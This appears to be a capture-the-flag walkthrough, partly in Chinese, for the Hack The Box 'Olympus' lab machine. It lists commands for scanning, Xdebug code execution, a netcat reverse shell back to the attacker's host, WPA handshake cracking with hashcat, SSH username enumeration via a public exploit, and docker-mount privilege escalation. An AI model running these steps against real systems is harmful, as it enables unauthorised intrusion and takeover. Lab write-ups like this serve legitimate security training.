




#Olympus

* nmap
```
nmap -sC -sV -oA nmap/olympus 10.10.10.83
less nmap/olympus.nmap
```

``` 
nslookup
> server 10.10.10.83

dnsrecon -n 10.10.10.83 -r 10.0.0.0/0 --db olympus.db
dnsrecon -n 10.10.10.83 -r 172.16.0.0/12 --db olympus.db
dnsrecon -n 10.10.10.83 -r 192.168.0.0/16 --db olympus.db
```
* 查看文件时间，可以判断对应时间的bug
``` 
apt install exiftool
exiftool zeus.jpg
```
*  burpsuit 发送请求，返回信息中debug打开。chrome安装xdebug的插件
```
chromium --no-sandbox
chrome xdebug app
```


``` 
tcpdump -i tun0 icmp
```
到此通过debug可以执行远程代码，利用pentest monkey  reverse shell
``` 
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.11234 >/tmp/f)
```

* 进入目标机，查看可疑文件captured.txt，将该文件提取到本机
* wireshark 打开该文件，并破解
``` 
aircrack-ng captured.cap -w /usr/share/wordlists/rockyou.txt

## 缺包
> https://github.com/hashcat/hashcat-utils
cd src
make
./cap2hccapx.bin captured.cap captured.hccapx
scp captured.hccapx kracken:
ssh kracken
mv captured.hccapx hashcat/hashes
cd hashcat
./hashcat --help | grep -i wpa
./hashcat -m 2500 hashes/captured.hccapx /usr/share/wordlists/rockyou.txt
```
将密码加入到文件中

查看后并没有思路，转换思路

* 查看/etc/passwd ，发现由用户存在， cve-2018-15919
```
git clone https://github.com/Rhynorater/CVE-2018-15473-Exploit
cd CVE-2018-15473-Exploit/
python sshUsernameEnumExploit.py
cat exampleInput.txt
python sshUsernameEnumExploit.py --port 2222 --userList exampleInput.txt 10.10.10.83
```
神话人物名字做一个集合，然后进行爆破，得到icarus，根据之前得到的wifi的ssid和密码，进行尝试登录2222端口
``` 
ssh -p 2222 icarus@10.10.10.83
```
登录后查看help_of_the_gods.txt, 得到ctfolympus.htb

* dns挖掘ctfolympus.htb为域
``` 
dig axfr @i0.10.10.83 ctfolympus.htb 
```

nmap扫描延迟，可以通过打开wireshark增加延迟
``` 
nmap -Pn -max-retries=0 --scan-delay=.2 -p 3456,8234,62431 10.10.10.83; ssh prometheus@10.10.10.83
```
* 进入目标机
```
docker run -ti olympia bash 
docker run -v /:/mnt/PleaseSubscribe -ti olympia bash

```

